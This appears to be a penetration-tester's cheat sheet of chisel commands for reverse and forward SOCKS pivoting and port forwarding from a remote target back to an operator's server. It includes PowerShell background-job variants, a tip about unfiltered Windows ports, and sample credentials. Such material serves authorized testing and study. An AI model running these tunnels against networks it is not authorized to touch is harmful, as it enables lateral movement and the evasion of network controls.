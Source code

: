 # chisel

% chisel

#plateform/linux  #target/remote  #cat/PIVOT 

## reverse pivot - server
```bash
chisel server -v -p <chisel_port> --reverse --socks5 
```

## reverse pivot - server (powershell)
probable unfiltered ports:
    https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/service-overview-and-network-port-requirements

```powershell
Start-Job -Name chisel-server -ScriptBlock { Start-Process chisel.exe -ArgumentList @('server', '-p', '<chisel_port>',  '--reverse' '--socks5')} 
```

## reverse pivot - client
```bash
chisel client <chisel_server_ip>:<chisel_port> R:<socks_port>:socks
```


## reverse pivot - client (powershell)
```powershell
Start-Job -Name chisel-client -ScriptBlock { Start-Process chisel.exe -ArgumentList @('client','<chisel_server_ip>:<chisel_port>','R:<socks_port>:socks')}
```

## reverse pivot - local port forwarding (forward client port on server)
forward {clientside-host}:{clientside-port} to server {local-port} To get the port of the client machine locally on serverside.
```
./chisel client -v <chisel_server_ip>:<chisel_port> R:<serverside-port>:<clientside-host|127.0.0.1>:<clientside-port>
```

## reverse pivot - remote port forwarding (forward server port on client)
To expose server port remotely (useful to expose your listener)
probable unfiltered ports:
    https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/service-overview-and-network-port-requirements
    
forward {serverside-host}:{serverside-port} from the server to {clientside-host}:{clientside-port}
ex : 0.0.0.0:4445:127.0.0.1:4444 expose the server 4444 listener to client 4445
```
./chisel client -v <chisel_server_ip>:<chisel_port> <clientside-host|0.0.0.0>:<clientside-port>:<serverside-host|127.0.0.1>:<serverside-port>
```

## protected reverse pivot - server
```
chisel server -v -p <chisel_port> --reverse --socks5 --auth '<chisel_login|jubeaz>:<chisel_password|Jub@z123!>'
```


## protected reverse pivot - client
```
export AUTH='<chisel_login|jubeaz>:<chisel_password|Jub@z123!>' && chisel client <chisel_server_ip>:<chisel_port> R:<socks_port>:socks
```

## protected reverse pivot - local port forwarding (forward client port on server)
forward {clientside-host}:{clientside-port} to server {local-port} To get the port of the client machine locally on serverside.
```
export AUTH='<chisel_login|jubeaz>:<chisel_password|Jub@z123!>' && chisel client -v <chisel_server_ip>:<chisel_port> R:<serverside-port>:<clientside-host|127.0.0.1>:<clientside-port>
```

## protected reverse pivot - remote port forwarding (forward server port on client)
To expose server port remotely (useful to expose your listener)
forward {serverside-host}:{serverside-port} from the server to {clientside-host}:{clientside-port}
ex : 0.0.0.0:4445:127.0.0.1:4444 expose the server 4444 listener to client 4445
```
export AUTH='<chisel_login|jubeaz>:<chisel_password|Jub@z123!>' && ./chisel client -v <chisel_server_ip>:<chisel_port> <clientside-host|0.0.0.0>:<clientside-port>:<serverside-host|127.0.0.1>:<serverside-port>
```

## forward pivot - server (forward pivot)
```
./chisel server -v -p <chisel_port> --socks5
```

## forward pivot - client 
```
./chisel client <chisel_server_ip>:<chisel_port> socks
```

## protected forward pivot - protected server
```
chisel server -v -p <chisel_port> --socks5 --auth '<chisel_login|jubeaz>:<chisel_password|Jub@z123!>'
```


## protected forward pivot - client 
```
export AUTH='<chisel_login|jubeaz>:<chisel_password|Jub@z123!>' && chisel client <chisel_server_ip>:<chisel_port> socks
```

	




